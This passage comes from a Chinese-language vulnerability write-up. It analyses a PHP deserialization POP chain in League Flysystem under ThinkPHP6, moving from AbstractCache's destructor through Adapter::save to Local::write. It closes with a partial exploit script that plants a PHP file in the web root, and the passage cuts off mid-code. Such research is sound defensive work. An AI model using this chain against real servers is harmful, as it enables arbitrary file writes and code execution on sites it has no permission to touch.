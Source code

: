 ![](https://p3.ssl.qhimg.com/t011d77a24984144b8f.png)

#### POC链流程图

![](https://p3.ssl.qhimg.com/t01242b5bf401391a73.png)

## POP链-3
### 漏洞分析
> 起始的触发链和上一条 POP 链一样，用 `src/Storage/AbstractCache.php` 的 `__destruct()` 方法中的 `save()` 方法作为起始点，寻找一个继承类的 `save()` 方法来作为触发点，这里跟进 `src/Storage/Adapter.php` 中的 `save()` 方法，其 `$contents` 的值来自于 `getForStorage()` 方法，这里进过的处理和上一条 POP 链分析的时候一样，主要来看看后面的 if...else 操作

![](https://p4.ssl.qhimg.com/t01897ef36e97c3d812.png)

> 由于需要通过 `write()` 方法来写入文件，所以需要先使得经过 `has()` 方法后的返回值为 false，这里先寻找一个同时有 `has()` 和 `write()` 方法的类

![](https://p4.ssl.qhimg.com/t017b348e1765ff936c.png)

![](https://p0.ssl.qhimg.com/t01db16a082c813e389.png)

> 查看源码后发现 `src/Adapter/Local.php` 中的 `Local` 类符合要求，先跟进一下 `has()` 方法

![](https://p4.ssl.qhimg.com/t0110a647e2b499fae3.png)

> 跟进 `applyPathPrefix()` 方法，其先调用了前面的 `getPathPrefix()` 方法，其中 `$pathPrefix` 是可控的，`ltrim()` 方法删除字符串开头的 `/` 和 `\`，因此可以直接传入一个文件名，然后控制 pathPrefix 为路径部分，再回到 `has()` 方法执行 `file_exists()` 方法，只需要保证传入的文件名不存在即可返回 false

![](https://p3.ssl.qhimg.com/t01e90ce6f7dec5ea32.png)

> 再来看看 `write()` 方法，`$location` 的值来源于 `$this->file` 传入 `applyPathPrefix` 处理后的文件名，`$contents` 的值是经过 `json_encode` 处理后带有文件内容的 json 数据

![](https://p1.ssl.qhimg.com/t01e712d63ca587c03c.png)

### exp
```php
<?php 

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache {
        protected $autosave = false;
        protected $cache = ["H3rmesk1t" => "<?php phpinfo();?>"];
    }
}

namespace League\Flysystem\Cached\Storage {
    use League\Flysystem\Cached\Storage\AbstractCache;
    class Adapter extends AbstractCache {
        protected $file;
        protected $adapter;
        public function __construct($adapter = "") {
            $this->file = "C:/Tools/phpstudy_pro/WWW/html/ThinkPHP6/public/pop3.php";
            $this->adapter = $adapter;
        }
    }
}

namespace League\Flysystem\Adapter {
    class Local {
        protected $writeFlags = 0;
    }
```